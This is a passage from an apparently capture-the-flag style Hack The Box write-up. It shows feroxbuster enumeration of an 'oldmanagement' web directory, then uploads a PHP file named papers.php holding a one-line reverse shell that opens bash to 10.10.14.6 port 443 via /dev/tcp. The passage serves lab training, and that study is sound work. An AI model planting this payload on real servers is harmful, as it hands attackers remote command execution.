     </head><body>
    <h1>Not Found</h1>
    <p>The requested URL was not found on this server.</p>
    <hr>
    <address>Apache/2.4.38 (Debian) Server at oldmanagement.seventeen.htb Port 8000</address>
    </body><.md>



It returns a 403 Forbidden on the folder I know exists ( `/31234`) and a
404 Not Found on the one I don't think exists (`/31235`). That's a good
sign that's the right path, even if I can't access it directly.

Running `feroxbuster` in this folder finds a `papers` directory!



    oxdf@hacky$ feroxbuster -u http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/

     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.5.0
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.5.0
     🏁  HTTP methods          │ [GET]
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Management Menu™
    ──────────────────────────────────────────────────
    301      GET        9l       28w      376c http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/papers => http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/papers/
    [####################] - 1m     59998/59998   0s      found:1       errors:1      
    [####################] - 58s    29999/29999   511/s   http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/ 
    [####################] - 56s    29999/29999   532/s   http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/papers



#### Shell

Putting that all together, I'll first upload a simple PHP reverse shell
as `papers.php`:



    <?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"); ?>


